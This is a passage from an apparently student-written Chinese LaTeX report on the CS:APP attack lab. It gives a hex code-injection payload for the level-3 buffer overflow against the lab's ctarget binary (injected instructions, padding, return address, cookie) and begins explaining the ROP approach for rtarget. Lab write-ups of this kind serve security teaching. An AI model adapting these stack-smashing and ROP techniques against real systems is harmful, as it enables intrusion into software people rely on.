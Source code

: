 \documentclass[12pt,a4paper]{article}
\begin{document}
\subsubsection{解法2}

与实验2解法2（）类似，此处也可利用 \verb|pushq| 命令将 \verb|touch3| 入口地址压入栈内，然后返回。堆栈图如  所示。

\begin{figure}[H]
    \hspace*{85pt}
    \includegraphics[width=0.7\textwidth]{./fig/3_2.png}
    \caption{实验3解法2堆栈图}
    \label{figure:exp_3_2}
\end{figure}

最终结果为

\begin{lstlisting}
48 c7 c7 c0 e0 64 55
68 ee 19 40 00
c3

00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00

78 e0 64 55 00 00 00 00
00 00 00 00 00 00 00 00
33 37 36 31 62 61 38 30
00 00 00 00
\end{lstlisting}

\subsection{实验4}
\label{section:exp_4}

实验4-5要求利用返回导向编程（Return-Oriented Programming, ROP）技术，在 \verb|rtarget| 程序上完成攻击任务。 \verb|rtarget| 开启了栈地址随机化，实行栈不可执行机制，因此相较于 \verb|ctarget| 更加困难。

实验4的要求与实验2一致。

由于无法注入代码，因此只能将cookie存在栈上，需要利用 \verb|popq| 指令将cookie保存到一个寄存器中，然后利用 \verb|movq| 指令将cookie的值拷贝到 \%rdi 中，最后返回到 \verb|touch2|。
\end{document}
